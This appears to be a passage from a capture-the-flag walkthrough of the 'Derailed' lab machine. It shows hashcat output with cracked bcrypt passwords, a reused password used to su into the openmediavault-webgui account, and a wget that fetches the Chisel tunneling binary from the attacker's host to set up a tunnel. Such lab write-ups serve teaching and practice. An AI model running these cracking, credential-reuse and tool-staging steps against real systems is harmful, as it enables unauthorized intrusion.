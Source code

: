 
At the end, both passwords are known:



    $ hashcat site-hashes /usr/share/wordlists/rockyou.txt --user -m 3200 --show
    alice:$2a$12$hkqXQw6n0CxwBxEW/0obHOb.0/Grwie/4z95W3BhoFqpQRKIAxI7.:recliner-bellyaching-bungling-continuum-gonging-laryngitis
    toby:$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle:greenday



### su

Given toby's name is on the openmediavault-webgui account, it make sense
to check that password for that user, and it works:



    rails@derailed:~$ su - openmediavault-webgui 
    Password: 
    openmediavault-webgui@derailed:~$



openmediavault-webgui is not allow to SSH (because they are not in the
ssh group, as shown [above](#ssh)):



    oxdf@hacky$ ssh openmediavault-webgui@10.10.11.190
    openmediavault-webgui@10.10.11.190's password: 
    Permission denied, please try again.



But that's ok as I have a very stable SSH shell from rails.

## Shell as root

### Web GUI

#### Tunnel

Given the clear signals to look at openmediavault, I'll want to get a
look at it. I already noted that this application is running on port 80
on localhost, and that I can't SSH tunnel. I'll upload
[Chisel](https://github.com/jpillora/chisel):



    openmediavault-webgui@derailed:/dev/shm$ wget 10.10.14.6/chisel_1.8.1_linux_amd64
    --2023-07-20 13:37:31--  http://10.10.14.6/chisel_1.8.1_linux_amd64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 8384512 (8.0M) [application/octet-stream]
    Saving to: ‘chisel_1.8.1_linux_amd64’

    chisel_1.8.1_linux_amd64                    100% [============================================>]   8.00M  7.51MB/s    in 1.1s
